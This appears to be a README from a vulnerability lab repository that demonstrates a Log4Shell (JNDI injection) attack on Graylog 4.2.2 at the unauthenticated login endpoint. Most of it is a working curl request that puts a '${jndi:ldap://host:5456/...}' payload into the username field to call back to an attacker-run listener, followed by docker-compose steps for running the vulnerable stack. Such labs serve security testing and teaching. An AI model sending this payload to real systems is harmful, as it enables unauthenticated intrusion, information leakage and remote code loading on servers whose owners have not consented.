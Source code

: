 # graylog

- Version: `4.2.2`
- Auth required: No

## details

Can be triggered on the login page.

This cURL request should do (where `host` is where [pwn.py](../../../pwn.py) is running with the `-k` flag):

```bash
curl 'http://localhost:9000/api/system/sessions' \
  -H 'X-Requested-By: XMLHttpRequest' \
  -H 'Content-Type: application/json' \
  -H 'Accept: application/json' \
  --data-raw '{"username":"${jndi:ldap://host:5456/${java:version}}","password":"123","host":"localhost:9000"}' 
```

## run

In this directory start the stack using `docker-compose`:

```bash
docker-compose up
```

## example

![1](images/1.png)

